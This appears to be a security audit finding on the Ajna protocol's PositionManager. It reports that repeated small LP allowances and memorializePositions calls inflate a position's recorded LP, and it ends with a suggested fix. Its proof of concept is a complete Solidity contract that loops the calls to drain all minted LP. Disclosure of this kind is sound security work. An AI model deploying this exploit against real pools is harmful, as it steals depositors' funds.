 | Severity | Title |
| -------- | -------- | 
|H-01 |Attacker can drain all minted LP by repeatedly increaseLPAllowance (for a small amount) and memorializePositions|


## [H-01]  Attacker can drain all minted LP by repeatedly increaseLPAllowance (for a small amount) and memorializePositions

## Vulnerability details
### Impact
In function memorializePositions, position.lps+=lpBalance is conducted. However, when memorializePositions is calling pool.transferLP, if user's allowedAmount is less than ownerLpBalance, the lp will not be fully transffered. Position.lps in mapping positions is incorrectly updated.
### Proof of Concept

Attacker can increaseLPAllowance to PositonManager by a small amount and then memorializePositions, only allowedAmount of lp will be transffered by function pool.transferLP, but the mapping position will be updated as if it has been fully transffered. Attacker repeat the steps until his position.lps exceeds the total lp amount that PositonManager owned, then he can drain all mined LP by reedemPositions.

A demo contract is given below, targeting AJNA-WETH pool.
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.14;

import {WETH9} from 'weth/WETH9.sol';
import {ERC20Pool} from './src/ERC20Pool.sol';
import {Pool} from './src/base/Pool.sol';
import {PositionManager} from './src/PositionManager.sol';

contract Attack{

    struct MemorializePositionsParams {
        uint256   tokenId;
        uint256[] indexes;
    }
    struct RedeemPositionsParams {
        uint256   tokenId; // The tokenId of the positions NFT
        address   pool;    // The pool address associated with positions NFT
        uint256[] indexes; // The array of bucket indexes to reedem positions for
    }

    address _ERC20Pool;
    address _PositionManager;
    address payable _WETH9;

    constructor(address ERC20Pool_, address PositionManager_, address payable WETH9_){
        _ERC20Pool=ERC20Pool_;
        _PositionManager=PositionManager_;
        _WETH9=WETH9_;
    }
    
    //Attacker call fuction go with 1 ether
    function go (address self, uint bucketIndex) external payable returns(uint,uint){
        
        WETH9(_WETH9).deposit{value:1e18}();
        WETH9(_WETH9).approve(_ERC20Pool,1e18);
        ERC20Pool(_ERC20Pool).addQuoteToken(1e18,bucketIndex,2*block.timestamp);
        
        uint tokenId;
        {bytes memory p=abi.encodeWithSignature("mint((address,address,bytes32))",self,_ERC20Pool,0x2263c4378b4920f0bef611a3ff22c506afa4745b3319c50b6d704a874990b8b2);
        (,bytes memory pReturn)=_PositionManager.call(p);
        tokenId=abi.decode(pReturn,(uint));}

        {address[] memory transferors=new address[](1);
        transferors[0]=_PositionManager;
        Pool(_ERC20Pool).approveLPTransferors(transferors);}

        //get minted lp amount before attack
        (uint mintedLP,)=ERC20Pool(_ERC20Pool).lenderInfo(bucketIndex,_PositionManager);

        bytes memory q;
        bytes memory r;
        uint256[] memory indexes=new uint[](1);
        indexes[0]=bucketIndex;
        uint256[] memory amounts=new uint[](1);
        amounts[0]=1;
        {MemorializePositionsParams memory qq;
        RedeemPositionsParams memory rr;
        qq.tokenId=tokenId;
        qq.indexes=indexes;
        rr.tokenId=tokenId;
        rr.pool=_ERC20Pool;
        rr.indexes=indexes;
        q=abi.encodeWithSignature("memorializePositions((uint256,uint256[]))",qq);
        r=abi.encodeWithSignature("reedemPositions((uint256,address,uint256[]))",rr);}

        //repeat until drained
        for(uint leftLP=1; leftLP>0 ;) {
            //only allow 1 wei
            Pool(_ERC20Pool).increaseLPAllowance(_PositionManager,indexes,amounts);
            _PositionManager.call(q);
            _PositionManager.call(r);
            
            (leftLP,)=ERC20Pool(_ERC20Pool).lenderInfo(bucketIndex,_PositionManager);
        }

        //get current lp amount of attacker
        (uint nowLP,)=ERC20Pool(_ERC20Pool).lenderInfo(bucketIndex,self);
        return (mintedLP,nowLP);
    }
}
```
## Recommended Mitigation Steps
Add a parameter transferAmount for function transferLP. Revert if allowedAmount is less than transferAmount.